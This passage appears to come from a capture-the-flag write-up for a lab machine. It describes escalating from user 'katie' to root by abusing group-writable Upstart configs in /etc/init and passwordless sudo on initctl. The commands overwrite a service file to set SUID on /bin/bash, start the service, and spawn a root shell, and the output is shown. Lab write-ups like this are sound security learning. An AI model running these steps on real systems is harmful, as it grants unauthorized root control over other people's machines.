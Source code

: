 After following the [HackTricks link](https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d) - figured out this was all about Upstart.

> `/etc/init` contains configuration files used by Upstart. Upstart is a young service management package championed by Ubuntu.

Checking the specified files, it was indeed correct that we have write access to some files in`/etc/init` - as `katie` is in the `developers` group.

```none
cd /etc/init
ls -la
32103  4 -rw-rw----  1 root developers   478 Jun 29  2020 test.conf
32105  4 -rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
32106  4 -rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
32108  4 -rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
32109  4 -rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
32112  4 -rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
32120  4 -rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
32121  4 -rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
32123  4 -rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
32126  4 -rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
32128  4 -rw-rw----  1 root developers   478 Jun 29  2020 test9.conf
```

And... we have access to run `/sbin/initctl` as `root` with no password required. Seems like a match made in heaven! I used a really simple, barebones example of an Upstart service which sets the SUID for the `/bin/bash` executable. That way, we can run bash and get `root` priviledge.

```none
cd /etc/init
printf "script\n    chmod +s /bin/bash\nend script\n" > test.conf
```

The last line will overwrite the existing `test.conf` file with:

```none
script
    chmod +s /bin/bash
end script
```

Then we can use `/sbin/initctl` to start the service we just modified:

```none
katie@spectra /etc/init $ sudo /sbin/initctl start test
test start/running, process 28400
```

And run `bash` and get `root` access:

```none
katie@spectra /etc/init $ ls -la /bin/bash
-rwsr-sr-x 1 root root 551984 Dec 22  2020 /bin/bash
katie@spectra /etc/init $ bash -p
bash-4.3# id
uid=20156(katie) gid=20157(katie) euid=0(root) egid=0(root) groups=0(root),20157(katie),20158(developers)
bash-4.3# wc -c /root/root.txt
33 /root/root.txt
```
